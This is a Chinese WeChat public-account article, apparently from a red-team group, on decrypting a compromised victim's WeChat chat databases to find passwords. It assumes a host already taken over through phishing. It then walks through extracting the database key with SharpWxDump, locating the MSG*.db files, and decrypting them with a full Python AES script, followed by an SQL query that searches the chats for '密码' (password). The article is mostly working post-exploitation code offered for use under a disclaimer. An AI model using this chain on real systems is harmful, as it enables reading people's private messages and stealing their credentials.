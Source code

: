 #  攻防演练中解密微信聊天记录寻找密码的Tips

原创 NightCrawler [ 夜组安全 ](javascript:void\(0\);)

**夜组安全** ![]()

微信号 NightCrawler_Team

功能介绍 "恐惧就是貌似真实的伪证" NightCrawler Team(简称:夜组)主攻WEB安全 | 内网渗透 | 红蓝对抗 | 代码审计 |
APT攻击，致力于将每一位藏在暗处的白帽子聚集在一起，在夜空中划出一道绚丽的光线！

____

___发表于_

收录于合集

#红蓝对抗 11 个

#攻防Tips 2 个

免责声明

由于传播、利用本公众号夜组安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号夜组安全及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

朋友们现在只对常读和星标的公众号才展示大图推送，建议大家把 **夜组安全** “ **设为星标** ”，否则可能就看不到了啦！

![](https://gitee.com/fuli009/images/raw/master/public/20230715095642.png)![](https://gitee.com/fuli009/images/raw/master/public/20230715095642.png)

 **攻防Tips**

![](https://gitee.com/fuli009/images/raw/master/public/20230715095642.png)![](https://gitee.com/fuli009/images/raw/master/public/20230715095642.png)

 **01**

 **前言** ****

当我们通过钓鱼上线了目标单位人员的主机上发现这台主机上除了登录了微信之外，在桌面也没有发现任何密码本，主机也没有连接数据库。这时我们就应该从登录的微信入手，搞出一些密码和有用的东西来。

![](https://gitee.com/fuli009/images/raw/master/public/20230715095646.png)

 **02**

 **解密工具介绍**

##  **SharpWxDump**

  * 

    
    
     https://github.com/AdminTest0/SharpWxDump

微信客户端取证，可获取用户个人信息(昵称/账号/手机/邮箱/数据库密钥(用来解密聊天记录))  

![](https://gitee.com/fuli009/images/raw/master/public/20230715095647.png)

得到Wechatkey，解密时需要

 **03**

 **查找微信数据库**

# 查找微信加密数据库文件地址，我的微信一般安装在D盘

  * 

    
    
    演示查找D盘：dir /a /s /b d:\*.db | findstr "MSG0.DB"

![](https://gitee.com/fuli009/images/raw/master/public/20230715095648.png)

 **04**

 **解密聊天记录**

进入文件夹，找到MSG0.db、MSG2.db、MSG3.db....文件

MSG.db，超出240MB会自动生成MSG1.db，以此类推：

![](https://gitee.com/fuli009/images/raw/master/public/20230715095649.png)

使用解密脚本：

  * 

    
    
    python Decode.py -k 4988C45601A6***************8115FF6D840A -d MSG0.db

  

 **附解密脚本**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     from Crypto.Cipher import AESimport hashlib, hmac, ctypes, sys, getopt  
    SQLITE_FILE_HEADER = bytes('SQLite format 3', encoding='ASCII') + bytes(1)IV_SIZE = 16HMAC_SHA1_SIZE = 20KEY_SIZE = 32DEFAULT_PAGESIZE = 4096DEFAULT_ITER = 64000opts, args = getopt.getopt(sys.argv[1:], 'hk:d:')input_pass = ''input_dir = ''  
    for op, value in opts:    if op == '-k':        input_pass = value    else:        if op == '-d':            input_dir = value  
    password = bytes.fromhex(input_pass.replace(' ', ''))  
    with open(input_dir, 'rb') as (f):    blist = f.read()print(len(blist))salt = blist[:16]key = hashlib.pbkdf2_hmac('sha1', password, salt, DEFAULT_ITER, KEY_SIZE)first = blist[16:DEFAULT_PAGESIZE]mac_salt = bytes([x ^ 58 for x in salt])mac_key = hashlib.pbkdf2_hmac('sha1', key, mac_salt, 2, KEY_SIZE)hash_mac = hmac.new(mac_key, digestmod='sha1')hash_mac.update(first[:-32])hash_mac.update(bytes(ctypes.c_int(1)))  
    if hash_mac.digest() == first[-32:-12]:    print('Decryption Success')else:    print('Password Error')blist = [blist[i:i + DEFAULT_PAGESIZE] for i in range(DEFAULT_PAGESIZE, len(blist), DEFAULT_PAGESIZE)]  
    with open(input_dir, 'wb') as (f):    f.write(SQLITE_FILE_HEADER)    t = AES.new(key, AES.MODE_CBC, first[-48:-32])    f.write(t.decrypt(first[:-48]))    f.write(first[-48:])    for i in blist:        t = AES.new(key, AES.MODE_CBC, i[-48:-32])        f.write(t.decrypt(i[:-48]))        f.write(i[-48:])

![](https://gitee.com/fuli009/images/raw/master/public/20230715095650.png)

此时文件夹下的MSG0.db已解密，使用navicat打开

![](https://gitee.com/fuli009/images/raw/master/public/20230715095651.png)

可以对关键词进行查找：

  * 

    
    
    SELECT * FROM "MSG" WHERE StrContent  like'%密码%'

**![](https://gitee.com/fuli009/images/raw/master/public/20230715095652.png)**

  

![](https://gitee.com/fuli009/images/raw/master/public/20230715095654.png)

  

 **05**

 **参考链接**

https://github.com/AdminTest0/SharpWxDump

https://mp.weixin.qq.com/s/4DbXOS5jDjJzM2PN0Mp2JA

 **06**

 **往期精彩**

[ ![](https://gitee.com/fuli009/images/raw/master/public/20230715095655.png)

一个终身免费的 _安全武器库_

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485483&idx=1&sn=636d5c32271c9d5b6faa861508d32086&chksm=c3684cd3f41fc5c543a47a019cba9614fade2e06b34dcf237f2877b4ddefe80a0b3cb416697f&scene=21#wechat_redirect)  
[
![](https://gitee.com/fuli009/images/raw/master/public/20230715095655.png&random=0.9455969846731584)

超级友好的 _安全武器库_ 和技术交流群

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485631&idx=1&sn=f53898523447469d01fda4a6cccbaa93&chksm=c3684c47f41fc551e6112994c7e8f535fdcfbb960bb250154e98629437477ba8def56d34219f&scene=21#wechat_redirect)  
[ ![](https://gitee.com/fuli009/images/raw/master/public/20230715095657.png)

_兄弟们_ 都进来说个大事

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485400&idx=1&sn=d3958ce2f6a8609c543de4d4862a34ec&chksm=c3684320f41fca362b7f1833482a3847dbf12ce51ef2c0bb1fee7fa86e9dfade09df1fa56775&scene=21#wechat_redirect)  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

